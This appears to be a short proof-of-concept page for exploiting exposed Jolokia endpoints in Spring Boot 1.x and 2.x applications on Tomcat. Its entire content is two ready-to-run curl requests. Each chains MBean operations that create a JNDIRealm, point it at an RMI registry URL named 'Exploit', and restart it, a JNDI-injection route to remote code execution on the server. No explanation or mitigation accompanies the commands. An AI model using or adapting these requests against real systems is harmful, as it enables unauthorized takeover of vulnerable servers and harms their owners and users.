 ## PoC
1.x `curl -X POST -H 'Content-Type: application/json' http://localhost:8080/jolokia -d '[{"mbean": "Tomcat:type=MBeanFactory", "type": "EXEC", "operation": "createJNDIRealm", "arguments": ["Tomcat:type=Engine"]}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "WRITE", "attribute": "contextFactory", "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "WRITE", "attribute": "connectionURL", "value": "rmi://localhost:1099/Exploit"}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "EXEC", "operation": "stop", "arguments": []}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "EXEC", "operation": "start", "arguments": []}]'`

2.x `curl -X POST -H 'Content-Type: application/json' http://localhost:8080/actuator/jolokia -d '[{"mbean": "Tomcat:type=MBeanFactory", "type": "EXEC", "operation": "createJNDIRealm", "arguments": ["Tomcat:type=Engine"]}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "WRITE", "attribute": "contextFactory", "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "WRITE", "attribute": "connectionURL", "value": "rmi://localhost:1099/Exploit"}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "EXEC", "operation": "stop", "arguments": []}, {"mbean": "Tomcat:realmPath=/realm0,type=Realm", "type": "EXEC", "operation": "start", "arguments": []}]'`